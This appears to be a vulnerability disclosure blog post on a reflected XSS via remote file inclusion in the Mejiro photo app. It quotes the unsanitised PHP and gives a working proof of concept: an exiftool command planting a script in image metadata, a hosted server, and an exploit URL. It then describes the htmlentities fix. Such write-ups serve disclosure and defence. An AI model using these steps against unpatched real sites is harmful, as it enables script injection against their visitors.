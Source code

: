 ```yaml
---
layout: post
title: Mejiro Reflected XSS Via Remote File Inclusion
subtitle: CVE
thumbnail-img: /assets/img/CVE-2022-27475/bug.png
tags: [CVE]
---
```


```
Title: Mejiro Reflected XSS Via Remote File Inclusion
Risk: 6.1 Medium CVSS:3.0/AV:N/AC:L/PR:N/UI:R/S:C/C:L/I:L/A:N
Versions Affected: Before commit 3096393
Identifier: TBD
Authors: Aaron Haymore
```

## Summary
I have identified a reflected cross-site scripting (XSS) vulnerability in a GitHub project known as Mejiro, which is an open-source photo publishing application. This XSS vulnerability can be exploited due to two critical factors. The first factor involves how `index.php` loads photos, while the second factor pertains to how the application processes metadata.
## Details
The core of the vulnerability lies within `index.php`. As seen from the code below, the application is extracting metadata using `exif` and saving them to their respective variables.
```php
// Get aperture, exposure, iso, and datetime from EXIF
$aperture = (is_null($exif['COMPUTED']['ApertureFNumber']) ? null : $exif['COMPUTED']['ApertureFNumber']);
$exposure = (is_null($exif['EXIF']['ExposureTime']) ? null : $exif['EXIF']['ExposureTime']);
// Normalize exposure
// https://stackoverflow.com/questions/3049998/parsing-exifs-exposuretime-using-php
if (!is_null($exposure)) {
	$parts = explode("/", $exposure);
	if (($parts[1] % $parts[0]) == 0 || $parts[1] == 1000000) {
		$exposure = ' &bull; 1/' . round($parts[1] / $parts[0], 0);
	} else {
		if ($parts[1] == 1) {
			$exposure = ' &bull; ' . $parts[0];
		} else {
			$exposure = ' &bull; ' . $parts[0] . '/' . $parts[1];
		}
	}
}
$iso = (is_null($exif['EXIF']['ISOSpeedRatings']) ? null : " &bull; " . $exif['EXIF']['ISOSpeedRatings']);
$datetime = $exif['EXIF']['DateTimeOriginal'] ?? null;
$comment = $exif['COMMENT']['0'] ?? null;
```

A little further down in `index.php`, you can see how this information and photo are displayed to the user. It outputs each of the variables taken from above to the webpage.
```php
// Show photo, EXIF data, description, and info
// Enable the download link if $download = true
$raw = (!empty($raw_file[0]) ? '&raw=' .  $raw_file[0] : null);
if ($download) {
	echo '<div class="center"><a href="' . htmlentities($file) . '" download><img style="max-width: 100%; border-radius: 7px;" src="' . htmlentities($tim) . '" alt="' . $file_path['filename'] . '" title="' . $file_path['filename'] . '"></a><div class="caption">' . $comment . ' ' . $description . '</div><div class="caption">' . $exif_info . '<a href="delete.php?file=' . $file . $raw . '"><img style="margin-left: 1em;" src="svg/bin.svg" alt="' . L::img_delete . '" title="' . L::img_delete . '" /></a></div>';
} else {
	echo '<div class="center"><img style="max-width: 100%; border-radius: 7px;" src="' . htmlentities($tim) . '" alt="' . $file_path['filename'] . '" title="' . $file_path['filename'] . '"><div class="caption">' . $comment . ' ' . $description . '</div><div class="caption">' . $exif_info . '<a href="delete.php?file=' . $file . $raw . '"><img style="margin-left: 1em;" src="svg/remove-image.svg" alt="' . L::img_delete . '" title="' . L::img_delete . '" /></a></div>';
}
```

Notice that there is no sanitization between when the data is extracted and displayed to the user. Input sanitization, also known as input validation, is the process of inspecting and cleaning data received from untrusted or unvalidated sources to ensure it is safe. The primary goal of input sanitization is to protect against malicious injection-type attacks. 

As an attacker, if I can manipulate variables like `$comment`, `$description`, or any other field within `$exif_info`, it could result in a cross-site scripting vulnerability. This bug alone does not have an impact because all the photos here are controlled by the author. There is no upload function; they have to be manually placed on the file system.

However, I was able to find a remote file inclusion vulnerability in `index.php` on the `photo` variable (it is worth noting that LFI was not possible and it would only load images). By exploiting this vulnerability, I was able to host a malicious file that contained embedded JavaScript within its metadata. When the application processes my malicious file, it extracts the JavaScript, executing it when someone visits the page.
```php
$file = (isset($_GET['photo']) ? $_GET['photo'] : null);
```

## Proof Of Concept 
To illustrate the exploit, I injected a malicious payload into a seemingly innocent 'dog.jpg' file:
```
[zonifer@dell Sandbox]$ exiftool -Comment='<script>alert("XSS")</script>' dog.jpg
    1 image files updated
```

Next, I hosted the payload on a basic `python3` web server:
```
[zonifer@dell Sandbox]$ sudo python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.1.17 - - [09/Oct/2023 00:33:12] "GET /dog.jpg HTTP/1.0" 200 -
```

To trigger the XSS, I navigated to:

`http://10.10.1.17/mejiro/index.php?all=1&photo=http://10.50.1.2/dog.jpg`

As a result, the XSS payload executed as expected.
![CVE-2022-27475](https://raw.githubusercontent.com/0xZon/0xZon.github.io/main/assets/img/20231009003326.png)

## Patch
To patch this vulnerability, the simplest solution is to utilize `htmlentities`. `htmlentities` is a PHP function used to convert special characters in a string to their respective HTML entities.

For example, characters like `<`, `>`, `&`, and double quotes `"` have special meanings in HTML. If they are not properly escaped, malicious users can inject code into web pages. `htmlentities` replaces these characters with their HTML entity equivalents, making it safe to display content on a webpage.

As an example, a malicious script to spawn an alert box would be:
```
<script>alert("XSS")</script>
```

After processing it through `htmlentities`, it would be:
```
`&lt;script&gt;alert(&quot;XSS&quot;)&lt;/script&gt;`
```

You can view the fix [here](https://github.com/dmpop/mejiro/commit/309639339f5816408865902befe8c90cb6862537), It essentially does what is just described above. It takes each of the EXIF data fields and processes it through `htmlentities` to strip away any possibility of malicious JavaScript.
## Report Timeline
```
10-9-2023: Vulnerability discovered and reported to the author.
10-10-2023: The author acknowledged the report and asked for suggestions to fix the issue.
10-10-2023: Response provided to the author, suggesting ways to fix the vulnerability.
10-15-2023: The patch was successfully pushed
```

## Conclusion
The Reflected XSS vulnerability in Mejiro underscores the importance of thorough security testing in web applications. It serves as a reminder that even seemingly benign elements, such as image metadata, can be exploited by malicious actors to compromise the security of a system. The timely response of the Mejiro development team in implementing the suggested patch is commendable and highlights the importance of collaboration in ensuring the security of web applications. By addressing such vulnerabilities proactively, we contribute to a safer and more reliable digital landscape.
